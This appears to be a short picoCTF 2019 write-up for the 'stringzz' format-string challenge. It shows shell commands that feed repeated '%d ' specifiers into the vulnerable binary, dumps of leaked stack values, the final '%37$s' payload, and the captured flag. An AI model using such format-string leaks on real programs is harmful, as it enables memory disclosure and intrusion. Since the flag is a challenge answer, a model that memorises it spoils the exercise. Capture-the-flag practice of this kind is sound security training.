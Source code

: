 # AUR

stringzz - Points: 300 - (Solves: 205)Binary Exploitation - Unsolved
Solve
Hints
Use a format string to pwn this program and get a flag. Its also found in /problems/stringzz_4_a95d63468fc56e11a9e406b68c4b3a4a on the shell server. Source.
http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

***

2kofawsome@pico-2019-shell1:/problems/overflow-2_3_051820c27c2e8c060021c0b9705ae446$ cd /problems/stringzz_4_a95d63468fc56e11a9e406b68c4b3a4

2kofawsome@pico-2019-shell1:/problems/stringzz_4_a95d63468fc56e11a9e406b68c4b3a4a$ python -c 'print "%d "*200' | ./vuln
input whatever string you want; then it will be printed back:

Now 
your input 
will be printed:

10 -136461461 1449133817 -134963200 1449140148 -8231448 1449133909 1470424576 1449134485 -136461461 1449133873 -134963200 1449140148 -8231416 1449133966 1470424576 1449134483 -136468453 1449133930 -134963200 1449140148 -8231336 1449134157 1470424576 128 1470425328 1449133998 -134963200 -134963200 0 -8231164 -134962180 1449140148 -8231156 602 1470424576 1470425184 1470425328 -791478784 -8231312 0 0 -136782207 -134963200 -134963200 0 -136782207 1 -8231164 -8231156 -8231276 1 -8231164 -134963200 -134801574 -8231168 0 -134963200 0 0 1660154544 -679242592 0 0 0 64 -134705116 0 0 -134801303 1449140148 1 1449133488 0 1449133537 1449133975 1 -8231164 1449134224 1449134320 -134800976 -8231172 -134702784 1 -8222839 0 -8222832 -8221316 -8221265 -8221231 -8221218 -8221155 -8221139 -8221081 -8221059 -8221025 -8220960 -8220939 -8220913 -8220893 -8220877 -8220869 -8220850 -8220728 -8220696 0 32 -134868880 33 -134873088 16 529267711 6 4096 17 100 3 1449132084 4 32 5 9 7 -134864896 8 0 9 1449133488 11 3735 12 3735 13 3737 14 8731 23 1 25 -8230901 26 0 31 -8220687 15 -8230885 0 0 0 1157627904 -1982803202 -106450145 -1710074020 1765202780 3553334 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0

2kofawsome@pico-2019-shell1:/problems/stringzz_4_a95d63468fc56e11a9e406b68c4b3a4a$ python -c 'print "%d "*155' | ./vuln
input whatever string you want; then it will be printed back:

Now 
your input 
will be printed:

10 -136400021 1449301753 -134901760 1449308084 -7919128 1449301845 1471809024 1449302421 -136400021 1449301809 -134901760 1449308084 -7919096 1449301902 1471809024 1449302419 -136407013 1449301866 -134901760 1449308084 -7919016 1449302093 1471809024 128 1471809648 1449301934 -134901760 -134901760 0 -7918844 -134900740 1449308084 -7918836 467 1471809024 1471809504 1471809648 1663052800 -7918992 0 0 -136720767 -134901760 -134901760 0 -136720767 1 -7918844 -7918836 -7918956 1 -7918844 -134901760 -134740134 -7918848 0 -134901760 0 0 -1687660606 648032722 0 0 0 64 -134643676 0 0 -134739863 1449308084 1 1449301424 0 1449301473 1449301911 1 -7918844 1449302160 1449302256 -134739536 -7918852 -134641344 1 -7915639 0 -7915632 -7914116 -7914065 -7914031 -7914018 -7913955 -7913939 -7913881 -7913859 -7913825 -7913760 -7913739 -7913713 -7913693 -7913677 -7913669 -7913650 -7913528 -7913496 0 32 -134807440 33 -134811648 16 529267711 6 4096 17 100 3 1449300020 4 32 5 9 7 -134803456 8 0 9 1449301424 11 3735 12 3735 13 3737 14 8731 23 1 25 -7918581 26 0 31 -7913487 15 -7918565 0 0 0 1224736768 1533222956 -31536482 1135788489 1765451489 3553334 

%37$s


picoCTF{str1nG_CH3353_159c98a8}
